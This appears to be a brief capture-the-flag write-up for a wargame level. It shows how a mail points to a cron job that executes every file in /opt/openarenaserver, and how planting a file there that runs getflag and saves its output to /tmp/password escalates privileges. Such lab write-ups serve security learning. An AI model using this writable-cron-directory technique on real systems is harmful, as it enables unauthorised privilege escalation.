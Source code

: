 When you log in you can see that you have a mail. Go to `/var/mail` and there is a mail with a cronjob:

``` shell
cat /var/mail/level05 
```

If you go to the path shown in the cronjob you find the script `/usr/sbin/openarenaserver`, let's see what's inside:

``` shell
cat /usr/sbin/openarenaserver
```

This script is executing all files inside `/opt/openarenaserver`, then if we put a file that executes `getflag` and save it on another file you only need to wait for the `openarenaserver` to execute that file.

``` shell
echo "getflag > /tmp/password" > /opt/openarenaserver/execute.me
```

Then you get:

``` shell
cat /tmp/password
```

